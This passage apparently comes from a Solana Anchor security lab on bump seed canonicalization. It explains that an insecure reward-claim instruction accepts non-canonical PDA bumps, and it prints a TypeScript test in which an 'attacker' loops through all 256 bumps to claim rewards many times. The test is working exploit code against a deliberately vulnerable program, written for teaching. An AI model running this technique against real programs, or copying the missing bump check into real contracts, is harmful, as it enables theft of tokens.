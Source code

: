 The `claim_insecure` instruction mints 10 tokens to the user and then marks the account's rewards as claimed so that they can't claim again.

However, the program doesn't explicitly check that the PDAs in question are using the canonical bump.

Have a look at the program to understand what it does before proceeding.

### 2. Test insecure instructions

Since the instructions don't explicitly require the `user` PDA to use the canonical bump, an attacker can create multiple accounts per wallet and claim more rewards than should be allowed.

The test in the `tests` directory creates a new keypair called `attacker` to represent an attacker. It then loops through all possible bumps and calls `create_user_insecure` and `claim_insecure`. By the end, the test expects that the attacker has been able to claim rewards multiple times and has earned more than the 10 tokens allotted per user.

```ts
it("Attacker can claim more than reward limit with insecure instructions", async () => {
  const attacker = Keypair.generate();
  await safeAirdrop(attacker.publicKey, provider.connection);
  const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey);

  let numClaims = 0;

  for (let i = 0; i < 256; i++) {
    try {
      const pda = createProgramAddressSync(
        [attacker.publicKey.toBuffer(), Buffer.from([i])],
        program.programId,
      );
      await program.methods
        .createUserInsecure(i)
        .accounts({
          user: pda,
          payer: attacker.publicKey,
        })
        .signers([attacker])
        .rpc();
      await program.methods
        .claimInsecure(i)
        .accounts({
          user: pda,
          mint,
          payer: attacker.publicKey,
          userAta: ataKey,
        })
        .signers([attacker])
        .rpc();

      numClaims += 1;
    } catch (error) {
      if (error.message !== "Invalid seeds, address must fall off the curve") {
        console.log(error);
      }
    }
  }

  const ata = await getAccount(provider.connection, ataKey);

  console.log(
    `Attacker claimed ${numClaims} times and got ${Number(ata.amount)} tokens`,
  );

  expect(numClaims).to.be.greaterThan(1);
```